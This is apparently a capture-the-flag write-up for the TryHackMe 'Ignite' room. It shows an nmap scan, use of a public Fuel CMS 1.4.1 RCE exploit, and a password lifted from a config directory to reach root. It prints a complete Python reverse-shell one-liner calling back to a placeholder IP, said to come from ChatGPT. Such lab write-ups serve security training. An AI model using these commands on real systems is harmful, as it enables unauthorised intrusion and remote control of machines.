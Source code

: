 # -THM-Ignite

First we define the IP
```
IP=xx.xx.xxx.xxx
```
## Nmap Scan
I started analyzing the environment using __`nmap`__  to discover open ports 

```
nmap -sV -sC -oN nmap_scan $IP
```

> - `-sV`: Detect service/version
> - `-sC`: Run default scripts
> - `-oN`: Output to file (normal format)


![image](https://github.com/user-attachments/assets/28b25ad2-3fba-4565-aa47-b692a18629fc)


We see that port `80 (HTTP)` is open

![image](https://github.com/user-attachments/assets/18981159-98b3-4af3-8d62-11df3f5328ac)

I use __searchsploit__ to see if it is any exploit for __Fuel__
![image](https://github.com/user-attachments/assets/1e03874b-e81c-4f21-8b83-fe983a387058)

Let s try code execution ... , I found an exploit on GitHub , let s try it 
```
git clone https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE.git 
```
Nice , we got shell and we are __www-data__

![image](https://github.com/user-attachments/assets/58ba6690-9b13-4deb-9701-3fe9ccb599e4)

# And we get the first flag : user.txt 
![image](https://github.com/user-attachments/assets/cbad5042-3eb8-422a-956d-00a95edc9ca5)

I asked ChatGPT to give me a command for a reverse shell:
```
python3 -c 'import socket,os,subprocess;s=socket.socket();s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'

```
After this I put an nc to listen on 4444 and try it 


![image](https://github.com/user-attachments/assets/295c6e61-ae80-4146-9862-b30b4c75ed5c)

Some research and I find this: 

![image](https://github.com/user-attachments/assets/1039832d-7f28-4e1d-a73a-fd300b90cc73)

Lets check it in -> 

```
/var/www/html/fuel/application/config
```

![image](https://github.com/user-attachments/assets/ff7c490c-3ad7-4c34-8e0a-ce4bf4c22586)

and we find the password for root 

![image](https://github.com/user-attachments/assets/3e00a449-1e15-4ac4-bc27-cdee8b918bf1)

I run a reverse shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# And we get the second flag : root.txt

![image](https://github.com/user-attachments/assets/02e81c60-b9ae-4456-8351-0d084ff0f1bb)


